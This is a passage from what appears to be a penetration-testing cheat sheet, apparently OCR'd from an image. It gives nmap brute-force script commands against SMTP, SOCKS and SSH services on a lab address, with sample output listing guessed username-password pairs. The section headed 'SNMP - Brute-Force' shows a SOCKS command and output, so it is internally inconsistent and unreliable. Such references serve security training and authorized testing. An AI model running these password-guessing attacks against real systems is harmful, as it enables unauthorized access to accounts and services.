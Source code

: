 ```sh 
nmap -p 25 --script smtp-brute 192.168.1.12
```

     |PORT    STATE SERVICE REASON
     |25/tcp  open  stmp    syn-ack
     | smtp-brute:
     |   Accounts
     |     braddock:jules - Valid credentials
     |     lane:sniper - Valid credentials
     |     parker:scorpio - Valid credentials
     |   Statistics
     |_    Performed 1160 guesses in 41 seconds, average tps: 33




### SNMP - Brute-Force                 

_Attempts to find an SNMP community string by Brute-Force guessing_
     
```sh 
nmap --script socks-brute -p 1080 192.168.1.12
```

     |PORT     STATE SERVICE
     |1080/tcp open  socks
     | socks-brute:
     |   Accounts
     |     patrik:12345 - Valid credentials
     |   Statistics
     |_    Performed 1921 guesses in 6 seconds, average tps: 320



### SSH - Brute-Force                               

_Performs brute-force password guessing against ssh servers_
     
```sh 
nmap -p 22 --script ssh-brute --script-args userdb=users.lst,passdb=pass.lst --script-args ssh-brute.timeout=4s 192.168.1.12
```

     |22/ssh open  ssh
     | ssh-brute:
     |  Accounts
     |    username:password
     |  Statistics
     |_   Performed 32 guesses in 25 seconds.
